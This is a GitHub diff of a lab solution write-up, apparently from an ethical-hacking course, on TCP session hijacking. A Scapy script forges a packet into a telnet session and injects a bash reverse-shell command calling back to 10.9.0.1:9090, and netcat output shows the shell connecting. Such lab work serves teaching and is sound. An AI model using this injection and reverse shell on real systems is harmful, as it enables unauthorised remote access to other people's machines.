

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Modify TCP source port and enhance reverse shell instructions
Updated TCP source port and added detailed netcat usage instructions for establishing a reverse shell.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -317,16 +317,29 @@ from scapy.all import *
 
 ip = IP(src="10.9.0.6", dst="10.9.0.5")
 
-tcp = TCP(sport=50144, dport=23, flags="PA", seq=1283769608, ack=3194969444)
-# Command to open a reverse shell on port 9090 of host 10.9.1.0
+tcp = TCP(sport=58610, dport=23, flags="PA", seq=4220417700, ack=820664831)
+
 data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n"
 pkt = ip/tcp/data
 ls(pkt)
 send(pkt,verbose=0)
 ```
 
-We open a TCP connection on our machine through the use of netcat: `netcat -lnv 9090`.
+We open a TCP connection on our machine through the use of netcat:
+```bash
+seed@VM:~/.../volumes$ docker exec -it seed-attacker /bin/bash
+root@VM:/# netcat -lnv 9090
+Listening on 0.0.0.0 9090
+```
 
 We then send the forged packet and see if the shell connects to our machine, remembering to add carriage return (`\r`) and newline (`\n`) to be sure that the command is executed on the server: `data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n"`
 
 We did everything correctly and the reverse shell connected succesfully.
+
+```bash
+seed@VM:~/.../volumes$ docker exec -it seed-attacker /bin/bash
+root@VM:/# netcat -lnv 9090
+Listening on 0.0.0.0 9090
+Connection received on 10.9.0.5 47418
+seed@abb6db62e897:~$
+```
````
